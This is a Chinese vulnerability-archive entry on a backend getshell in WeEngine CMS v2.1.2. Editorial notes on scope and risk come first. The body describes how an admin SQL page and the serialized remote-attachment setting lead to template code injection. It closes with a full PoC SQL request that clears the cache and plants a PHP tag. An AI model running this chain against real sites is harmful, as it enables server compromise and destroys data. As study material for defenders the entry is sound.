

# 微擎cms v2.1.2 后台getshell

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：微擎CMS2.1.2
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：需高权后台SQL执行权限，不能当低权/无认证RCE；缺修复说明，不与另一低权限专题编辑洞合并
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 需高权后台SQL执行权限，不能当低权/无认证RCE
2. POC DELETE清整个缓存并覆盖remote配置有业务副作用需备份恢复
3. 静态核对序列化URL长度28与s:28一致，无此长度错误；硬编码token不可复用
4. 原始来源缺失只有补库批
5. 缺修复说明，不与另一低权限专题编辑洞合并

### 操作风险

POC DELETE清整个缓存并覆盖remote配置有业务副作用需备份恢复

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

一、漏洞简介
------------

需要登录后台，并且有高权限。

二、漏洞影响
------------

v2.1.2

三、复现过程
------------

这个洞首先需要一个高权账号。问题出在模板解析这里(template.func.php)。

attachurl\_remote来自于后台的设置,但是有一层htmlspecialchars

但是恰巧微擎支持SQL操作,虽然有些绿化版本的把SQL提交按钮和TOKEN值隐藏了,但是由于微擎一个页面做了多个CASE,所以可以数据表优化处找到TOKEN

这样就可以愉快的修改SQL了,然后会发现微擎存在一个缓存表,同时remote这边的设置做了序列化(其实这个也可以利用),就可以构造如下

### POC

    sql=DELETE from ims_core_cache;update ims_core_settings  set `value` ='a:5:{s:4:"type";i:1;s:6:"alioss";a:4:{s:3:"key";s:0:"";s:6:"secret";s:0:"";s:6:"bucket";N;s:8:"internal";s:1:"0";}s:3:"ftp";a:9:{s:3:"ssl";i:1;s:4:"host";s:9:"127.0.0.1";s:4:"port";s:2:"21";s:8:"username";s:4:"root";s:8:"password";s:4:"root";s:4:"pasv";i:0;s:3:"dir";s:10:"127.0.0.11";s:3:"url";s:28:"127.0.0.1?<?php echo 123; ?>";s:8:"overtime";i:0;}s:5:"qiniu";a:4:{s:9:"accesskey";s:0:"";s:9:"secretkey";s:0:"";s:6:"bucket";s:0:"";s:3:"url";s:0:"";}s:3:"cos";a:6:{s:5:"appid";s:0:"";s:8:"secretid";s:0:"";s:9:"secretkey";s:0:"";s:6:"bucket";s:0:"";s:5:"local";s:0:"";s:3:"url";s:0:"";}}' where `key`="remote";&token=9def73ec&submit=submit

最后刷新缓存然后打开有加载footer的页面就能getshell了

